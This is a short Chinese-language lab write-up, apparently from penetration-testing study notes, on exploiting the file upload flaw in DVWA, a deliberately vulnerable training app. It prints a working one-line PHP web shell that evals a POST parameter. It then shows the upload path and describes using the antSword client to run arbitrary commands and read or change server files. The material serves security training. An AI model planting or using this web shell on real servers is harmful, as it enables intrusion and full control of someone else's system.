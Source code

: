 文件上传漏洞的利用是有限制条件的，首先当然是要能够成功上传木马文件，其次上传文件必须能够被执行，最后就是上传文件的路径必须可知。不幸的是，这里三个条件全都满足。

上传文件 shell.php(一句话木马)
```php
<?php @eval($_POST['ant']); ?>
```

上传成功，并且返回了上传路径

![image](../../../img/渗透/实验/dvwa/dvwa24.png)

注:这里推荐用开源的 [antSword](https://github.com/AntSwordProject/antSword) 连接webshell，安装步骤这里略

`http://<IP地址!!!>/dvwa/hackable/uploads/shell.php`

![image](../../../img/渗透/实验/dvwa/dvwa25.png)

然后 antSword 就会通过向服务器发送包含 ant 参数的 post 请求，在服务器上执行任意命令，获取 webshell 权限。可以下载、修改服务器的所有文件。
